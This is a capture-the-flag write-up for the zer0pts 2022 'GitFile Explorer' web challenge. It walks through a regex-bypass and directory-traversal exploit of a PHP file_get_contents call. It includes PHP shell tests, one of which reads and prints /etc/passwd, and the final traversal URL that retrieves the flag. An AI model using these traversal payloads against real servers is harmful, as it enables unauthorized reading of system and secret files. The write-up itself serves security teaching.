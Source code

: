 # GitFile Explorer
|  Web   | Warmup |
|--------|--------|

*Read /flag.txt on the server.*

[Challenge download file](https://github.com/kanin9/ctf/files/8313820/explorer.zip)

Challenge site: http://gitfile.ctf.zer0pts.com:8001/

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/images/a.png)


It looks like a simple website which allows us to *download files on GitHub/GitLab/BitBucket*

Upon clicking on the Download button, a request to  this url is made https://raw.githubusercontent.com/ptr-yudai/ptrlib/master/README.md and the response of the url is shown in the textarea.

![image](https://github.com/kanin9/ctf/blob/main/2022/zer0pts/images/b.png)

We now have  a basic understanding of the website , let see what we can do here to read the `/flag.txt` file.

This url  is in the address bar, when we click on the *Download* button:

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

Looks like we can substitute the service parameter



**Looking into the source code:**


```php
<?php
function h($s) { return htmlspecialchars($s); }
function craft_url($service, $owner, $repo, $branch, $file) {
    if (strpos($service, "github") !== false) {
        /* GitHub URL */
        return $service."/".$owner."/".$repo."/".$branch."/".$file;

    } else if (strpos($service, "gitlab") !== false) {
        /* GitLab URL */
        return $service."/".$owner."/".$repo."/-/raw/".$branch."/".$file;

    } else if (strpos($service, "bitbucket") !== false) {
        /* BitBucket URL */
        return $service."/".$owner."/".$repo."/raw/".$branch."/".$file;

    }

    return null;
}

$service = empty($_GET['service']) ? "" : $_GET['service'];
$owner   = empty($_GET['owner'])   ? "ptr-yudai" : $_GET['owner'];
$repo    = empty($_GET['repo'])    ? "ptrlib"    : $_GET['repo'];
$branch  = empty($_GET['branch'])  ? "master"    : $_GET['branch'];
$file    = empty($_GET['file'])    ? "README.md" : $_GET['file'];

if ($service) {
    $url = craft_url($service, $owner, $repo, $branch, $file);
    if (preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", $url) === 1) {
        $result = file_get_contents($url);
    }
}
?>
```

http://gitfile.ctf.zer0pts.com:8001/?service=https%3A%2F%2Fraw.githubusercontent.com&owner=ptr-yudai&repo=ptrlib&branch=master&file=README.md

The `craft_url` function creates the final url which will be used later on by combining all the parameter values.It also checks the `service` parameter using `strpos` function, to see if it's contains the word github/gitlab/bitbucket 

The returned url from `craft_url` is then stored in variable `$url`, which is again validated using `preg_match` with a regex check.

--------------


```php
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https://github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//github.com");
1
php > echo preg_match("/^http.+\/\/.*(github|gitlab|bitbucket)/m", "https//xyz?github");
1
```

Ok we can easily bypass the check now.
Btw did you noticed the final url `https//xyz?github` , the colon is missing here after the protocol part.

If we try to pass this url to `file_get_contents` function you will get below error:

```php
php > echo file_get_contents('https//xyz?github');
PHP Warning:  file_get_contents(https//xyz?github): failed to open stream: No such file or directory in php shell code on line 1
```


*No such file or directory* ahh nice. So php treats https//xyz?github as a local directory



Let's check what happens if we put the missing colon , will we get the same error:

```php
php > echo file_get_contents('https://xyz?github');
PHP Warning:  file_get_contents(): php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
PHP Warning:  file_get_contents(https://xyz?github): failed to open stream: php_network_getaddresses: getaddrinfo failed: No address associated with hostname in php shell code on line 1
```

Nope! We see that it is now treated as web URL


Hmmm... what if we try to access passwd file?
Spoiler alert, it works))) 


```php
php > echo file_get_contents('https//xyz?github/../../../../etc/passwd');
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
```
And after playing around a bit, I was able to read the flag:
Final url
http://gitfile.ctf.zer0pts.com:8001/?service=https//../../../%2523github&owner=ptr-yudai&repo=ptrlib&branch=master&file=../../../../../flag.txt


`zer0pts{foo/bar/../../../../../directory/traversal}`
